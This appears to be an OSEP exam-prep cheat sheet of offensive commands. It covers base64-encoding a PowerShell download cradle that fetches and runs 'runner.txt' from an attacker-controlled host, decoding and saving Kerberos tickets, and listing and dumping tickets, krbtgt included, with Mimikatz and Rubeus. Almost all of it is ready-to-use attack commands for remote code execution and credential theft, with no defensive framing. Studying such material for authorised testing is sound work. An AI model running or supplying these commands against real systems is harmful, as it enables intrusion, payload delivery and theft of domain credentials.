 # OSEP Exploitation Flow
## Common Commands
### Encode PowerShell payload

#### On Windows:
```powershell
[system.convert]::tobase64string([system.text.encoding]::unicode.getbytes('IEX ((new-object net.webclient).downloadstring("http://192.168.x.y/runner.txt"))'))
```
#### On Linux:
```bash
echo -en 'IEX ((new-object net.webclient).downloadstring("http://192.168.x.y/runner.txt"))' | iconv -t UTF-16LE | base64 -w 0
```
### Save a ticket to file

#### On Windows
```powershell
[System.IO.File]::WriteAllBytes("C:\windows\temp\bob.kirbi", [System.Convert]::FromBase64String("xxxxxx="))
```
#### On linux
```bash
echo '…' | base64 -d > bob.kirbi
```
### List ticket

#### Mimikatz
```powershell
sekurlsa::tickets
```
#### Rubeus
```powershell
rubeus.exe triage
```
#### Operating System
```powershell
klist
```

### Dump a ticket

#### Mimikatz
```powershell
sekurlsa::tickets /export
```
#### Rubeus
```powershell
rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```
